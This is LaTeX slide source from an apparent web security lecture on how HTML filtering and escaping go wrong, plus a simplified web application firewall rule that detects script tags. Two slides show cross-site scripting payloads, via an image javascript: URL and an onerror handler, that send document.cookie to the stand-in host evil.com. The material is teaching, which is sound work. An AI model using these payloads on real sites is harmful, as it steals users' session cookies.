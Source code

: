 \begin{frame}[fragile,label=HTMLFilterEscapeNits]{HTML filtering/escaping nits}
    \begin{itemize}
    \item it's easy to mess up HTML filtering or escaping
        \begin{itemize}
        \item (especially if trying to allow ``safe HTML'')
        \item browsers have features you don't know about
        \end{itemize}
    \item can `only' set image URL?
\begin{verbatim}
<img src="javascript:(new Image()).src=
                     'http://evil.com/' + document.cookie">
\end{verbatim}
    \item disallow the word `script'?
\begin{verbatim}
<img src="x"onerror="(new Image()).src=
                   'http://evil.com/' + document.cookie">
\end{verbatim}

    \end{itemize}
\end{frame}


\begin{frame}[fragile]{web application firewall rule}
\begin{Verbatim}[fontsize=\small]
# via coreruleset.org, simplified some
SecRule REQUEST_COOKIES|...|REQUEST_FILENAME|\
        ARGS_NAMES|ARGS|... \
    "@rx (?i)<script[^>]*>[\s\S]*?" \
    "id:941140,phase:2,block,cpature..."
\end{Verbatim}
\begin{itemize}
\item look for \verb|<script>| tags in request
\item problem: maybe not use
\end{itemize}
\end{frame}


